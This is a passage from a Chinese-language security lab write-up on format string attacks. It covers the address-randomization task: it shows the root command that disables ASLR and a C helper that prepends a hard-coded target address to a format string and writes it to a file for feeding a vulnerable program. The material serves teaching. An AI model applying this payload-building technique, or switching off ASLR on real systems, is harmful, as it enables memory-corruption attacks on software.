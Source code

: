 ![image-20220320232059485](FormatString/image-20220320232059485.png)

## 任务 2：内存随机化

> 如果第一个 scanf 语句（`scanf（"%d"，int_input）`）不存在，即程序不要求您输入整数，则任务 1 中的攻击对于那些已实现地址随机化的操作系统来说变得更加困难。注意秘密[0]（或秘密[1]）的地址。当您再次运行该程序时，您会得到相同的地址吗？
> 引入地址随机化以使许多攻击变得困难，例如缓冲区溢出，格式字符串等。为了理解地址随机化的想法，我们将在此任务中关闭地址随机化，并查看对先前易受攻击的程序（没有第一个scanf语句）的格式字符串攻击是否仍然很困难。您可以使用以下命令关闭地址随机化（请注意，您需要以 root 用户身份运行它）：
>
> ```c
> sysctl -w kernel.randomize_va_space=0
> ```
>
> 关闭地址随机化后，您的任务是重复任务 1 中描述的相同任务，但您必须从易受攻击的程序中删除第一个 scanf 语句（`scanf（"%d"，int input）`）。
>
> 如何让scanf接受任意数字？通常，scanf 将暂停以键入输入。有时，您希望程序采用数字0x05（而不是字符"5"）。然而，当您在输入端键入"5"时，scanf实际上会接收ASCII值"5"，这是0x35，而不是0x05。难点在于，在 ASCII 中，0x05不是典型字符，因此我们无法键入此值。解决此问题的一种方法是使用文件。我们可以很容易地编写一个C程序，将0x05（再次强调，不是"5"）存储到一个文件中（让我们称之为mystring），然后我们可以运行易受攻击的程序（让我们称之为a.out），其输入被重定向到mystring；也就是说，我们运行"`a.out < mystring`"。这样，scanf 将从文件 mystring 而不是从键盘获取其输入。

```c
/* write_string.c */

#include <sys/types.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[1000];
    int fp, size;
    unsigned int *address;

    /* Putting any number you like at the beginning of the format string */
    address = (unsigned int *)buf;
    *address = 0x804b01c;

    /* Getting the rest of the format string */
    scanf("%s", buf + 4);
    size = strlen(buf + 4) + 4;
    printf("The string length is %d\n", size);

    /* Writing buf to "mystring" */
    fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (fp != -1)
    {
        write(fp, buf, size);
        close(fp);
    }
    else
    {
        printf("Open failed!\n");
    }
}

```
